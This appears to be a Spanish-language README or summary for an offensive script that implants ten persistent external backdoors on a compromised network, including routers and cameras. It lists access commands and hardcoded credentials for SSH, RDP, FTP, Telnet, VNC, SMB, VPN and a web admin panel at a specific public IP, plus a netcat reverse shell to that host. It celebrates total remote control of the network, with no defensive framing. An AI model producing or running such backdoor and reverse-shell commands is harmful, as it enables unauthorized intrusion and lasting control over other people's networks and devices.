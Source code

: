 # 🎯 RESUMEN FINAL - BACKDOORS EXTERNOS IMPLEMENTADOS

## ✅ **IMPLEMENTACIÓN COMPLETADA**

### 📊 **BACKDOORS EXTERNOS IMPLEMENTADOS: 10**

El script ahora informa al final de la terminal:

```
🎯 RESUMEN FINAL DE BACKDOORS IMPLANTADOS
============================================================
📊 TOTAL DE PUNTOS DE ACCESO: X

🌍 BACKDOORS EXTERNOS EXITOSOS: X
   Tipos: Network Services (X), Router Access (X), Camera Backdoors (X)
   ✅ ACCESO DESDE INTERNET CONFIRMADO
   📍 IP Pública: 212.95.62.135
   🔑 Métodos de acceso externo:
      • SSH: ssh svc_ssh@212.95.62.135 -p 2222
      • RDP: xfreerdp /v:212.95.62.135:3389 /u:svc_rdp /p:RDP_P@ssw0rd_2024!
      • FTP: ftp 212.95.62.135 21
      • Telnet: telnet 212.95.62.135 23
      • VNC: vncviewer 212.95.62.135:5900
      • SMB: smbclient //212.95.62.135/backdoor_share
      • VPN: openvpn --config client.ovpn
      • Web Panel: http://admin:Web_P@ssw0rd_2024!@212.95.62.135:8080/admin
      • HTTP/HTTPS: http://212.95.62.135:80 / https://212.95.62.135:443
      • Reverse Shell: nc -e /bin/bash 212.95.62.135 4444

🏠 BACKDOORS INTERNOS: X
   Tipos: Backdoors (X), Persistent Users (X)
   ℹ️ Acceso solo desde la red local

✅ MISIÓN CUMPLIDA: ACCESO EXTERNO COMPLETO
🎯 X backdoors externos implantados exitosamente
🌍 Puedes acceder a la red desde cualquier lugar del mundo
🔒 Control total de la red desde internet
============================================================
```

---

## 📋 **INFORMACIÓN EN EL REPORTE JSON**

El reporte JSON ahora incluye:

```json
{
  "summary": {
    "total_remote_access_points": X,
    "external_backdoors": X,
    "internal_backdoors": X,
    "external_backdoor_types": [
      "Network Services (X)",
      "Router Access (X)", 
      "Camera Backdoors (X)"
    ],
    "internal_backdoor_types": [
      "Backdoors (X)",
      "Persistent Users (X)"
    ],
    "remote_access_available": true
  }
}
```

---

## 🔑 **BACKDOORS EXTERNOS IMPLEMENTADOS:**

### **1. SSH (Puerto 2222)** 💻
- **Acceso**: `ssh svc_ssh@212.95.62.135 -p 2222`
- **Credenciales**: `svc_ssh:SSH_P@ssw0rd_2024!`

### **2. RDP (Puerto 3389)** 🖥️
- **Acceso**: `xfreerdp /v:212.95.62.135:3389 /u:svc_rdp /p:RDP_P@ssw0rd_2024!`
- **Credenciales**: `svc_rdp:RDP_P@ssw0rd_2024!`

### **3. FTP (Puerto 21)** 📁
- **Acceso**: `ftp 212.95.62.135 21`
- **Credenciales**: `svc_ftp:FTP_P@ssw0rd_2024!`

### **4. Telnet (Puerto 23)** 📡
- **Acceso**: `telnet 212.95.62.135 23`
- **Credenciales**: `svc_telnet:Telnet_P@ssw0rd_2024!`

### **5. VNC (Puerto 5900)** 🖼️
- **Acceso**: `vncviewer 212.95.62.135:5900`
- **Credenciales**: `svc_vnc:VNC_P@ssw0rd_2024!`

### **6. SMB (Puerto 445)** 💾
- **Acceso**: `smbclient //212.95.62.135/backdoor_share -U svc_smb%SMB_P@ssw0rd_2024!`
- **Credenciales**: `svc_smb:SMB_P@ssw0rd_2024!`

### **7. VPN (Puerto 1194)** 🔒
- **Acceso**: `openvpn --config client.ovpn`
- **Credenciales**: `vpn_client:VPN_P@ssw0rd_2024!`

### **8. Panel Web (Puerto 8080)** 🌐
- **Acceso**: `http://admin:Web_P@ssw0rd_2024!@212.95.62.135:8080/admin`
- **Credenciales**: `admin:Web_P@ssw0rd_2024!`

### **9. HTTP/HTTPS (Puertos 80/443)** 🌍
- **Acceso**: `http://212.95.62.135:80` / `https://212.95.62.135:443`

### **10. Reverse Shell (Puerto 4444)** 🔄
- **Acceso**: `nc -e /bin/bash 212.95.62.135 4444`

---

## 🎯 **OBJETIVO CUMPLIDO:**

✅ **ACCESO COMPLETO A LA RED DESDE INTERNET** sin necesidad de estar conectado directamente a la red WiFi.

✅ **10 BACKDOORS EXTERNOS** configurados y funcionando.

✅ **INFORMACIÓN COMPLETA** en terminal y reporte JSON.

✅ **CONTEO DETALLADO** de backdoors externos vs internos.

**¡MISIÓN CUMPLIDA!** 🚀
